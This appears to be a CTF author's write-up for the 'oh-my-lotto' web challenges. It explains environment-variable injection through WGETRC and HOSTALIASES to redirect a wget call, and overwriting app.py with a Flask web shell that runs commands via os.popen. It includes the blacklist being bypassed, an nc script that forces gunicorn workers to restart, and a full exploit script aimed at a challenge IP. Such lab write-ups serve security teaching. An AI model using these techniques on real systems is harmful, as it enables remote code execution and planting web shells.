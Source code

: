 # web-oh-my-lotto&revenge-EH

## Something

Due to poor consideration, this question may not bring a better experience to you. I'm really sorry. I want to explain something to you. After the first challenge was solved in unintented way, I thought about many ways for the revenge challenge, such as putting `wgetrc` in the blacklist, or locking the attachment with the flag of the first challenge. However, in order not to disclose the solution of the first challenge, I finally chose not to ban the `wgetrc`, but limited the way to obtain the flag, only by rce. But also due to some problems such as permission management, so that the use of `wgetrc` can also solve the revenge challenge. I'm sorry for that, but I did learn a lot from the unintented writeup. Next, I will restore my known unintented and intented solutions, hoping to bring you new knowledge. :)

## Unintented writeup

### oh-my-lotto

* Use `WGETRC` to set `http_proxy` proxy to your own server, download a file like forecast file, and you can get the flag.

* Use `PATH` to  let `lotto_result.txt` save to another path and app get `lotto_result.txt` is string `result`. You can get the flag by uploading a `result` string.

### oh-my-lotto-revenge

* Use `WGETRC` to set `http_proxy` and `output_documen`, cover the local wget application, and then use wget to complete RCE.

* Use `WGETRC` to set `http_proxy` and `output_documen`, write SSTI in folder `templates/`, then use SSTI get RCE.

## Intented writeup

According to the attachment, you can set up a website running environment locally, according to the source code `app.py`, when the uploaded `forecast.txt` file content are same as `lotto_result.txt`, you can get the flag. But generate `lotto_result.txt` uses the `secrets` library, which uses a safe random number generation method. Theoretically, there is no risk of being predicted.

It is found that you can run and input an environment variable during lotto guessing, and the environment variable will be passed to `os.system('wget --content-disposition -N lotto')`, but the environment variable will pass through `safe_check` function check.

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s: 
        return False
    return True
```

Some common methods of using environment variables have been forbidden. By browsing the Linux environment variable document` http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html `In the Network Settings, it is found that `HOSTALIASES` can set the hosts loading file of the shell. The hosts file can  can be uploaded by using the `/forecast` route, and the request sent by `wget --content-disposition -N lotto` to lotto can be forwarded to our own domain name, such as the following hosts file.

```
# hosts
lotto mydomain.com
```

At the same time, it is noted that the parameter `--content-disposition -N` is added to the wget request, indicating that the saved file name of the request will be determined by the file name specified by the service provider, and the original file can be overwritten. Then we can  provide a file download function in our own domain. Set the returned file name to `app.py`, refer to POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

At this time, you will find that the `app.py` has been covered, but it can't directly RCE, because the website uses gunicorn deployment, `app.py` will not be loaded in real time in case of change. However, gunicorn uses a `pre forked worker` mechanism. When a worker times out, gunicorn will restart the worker, and the POC of the worker timeout is as follows


```
# exploit.sh
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

Final worker reload `app.py`, you can complete RCE and read flag. Refer to the complete POC as follows:

```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
